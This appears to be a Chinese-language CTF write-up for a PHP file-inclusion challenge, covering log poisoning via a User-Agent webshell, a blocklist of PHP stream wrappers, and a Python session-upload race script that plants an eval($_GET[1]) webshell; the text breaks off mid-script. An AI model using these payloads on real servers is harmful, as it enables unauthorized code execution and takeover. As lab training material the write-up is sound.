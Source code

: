 很明显，一道文件包含题目。

```php
$required_chars = ['s', 'e', 'v', 'a', 'n', 'x', 'r', 'o'];
```

~这里要求文件名要有sevanxro，所以跟日志包含没关系了~，看了官方wp时，发现我最初想错了，我以为要整个sevanxro字符串要在变量值里出现，现在发现只要这些字母出现即可，所以日志包含也是可以的`/var/log/nginx/access.log`

所以`POST：incompetent=HelloWorld&Datch=/var/log/nginx/access.log`，在UA(user-agent里添加一句话木马即可)

```php
    $invalid_patterns = ['php://', 'http://', 'https://', 'ftp://', 'file://' , 'data://', 'gopher://'];
```

这里禁用了php伪协议，所以伪协议也不行了

还有一种方法，session包含，通过伪造文件上传的过程，在服务器创建含有恶意代码的session文件

我的往期文章[【session包含】](https://the0n3.top/pages/07a506/)

直接上脚本

```python
import requests
import threading
import time

# 如果题目链接是https，换成http
url = 'http://challenge.basectf.fun:38890/'
sessionid = 'sevanxro'
data = {
    # session文件内容
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php file_put_contents("shell.php","<?php highlight_file(__FILE__);eval(\$_GET[1]);?>");?>',
    # session文件路径可能不同
    'incompetent': 'HelloWorld',
    'Datch': '/tmp/sess_' + sessionid,
}

file = {
    'file': sessionid
}

cookies = {
    'PHPSESSID': sessionid
}

# 上传文件函数
def upload_file():
    while True:
        response = requests.post(url, data=data, files=file, cookies=cookies)
        time.sleep(1)  # 为了避免发送请求过快，可以适当增加间隔时间

# 检查文件是否已创建
def check_file():
    while True:
        r = requests.get(url + 'shell.php')
        if r.status_code == 200:
            print('Webshell created successfully')
            print(r.text)
            break
        else:
            print('error：', r.status_code)
        # time.sleep(1)  # 为了避免发送请求过快，可以适当增加间隔时间

# 创建并启动线程
threads = []
```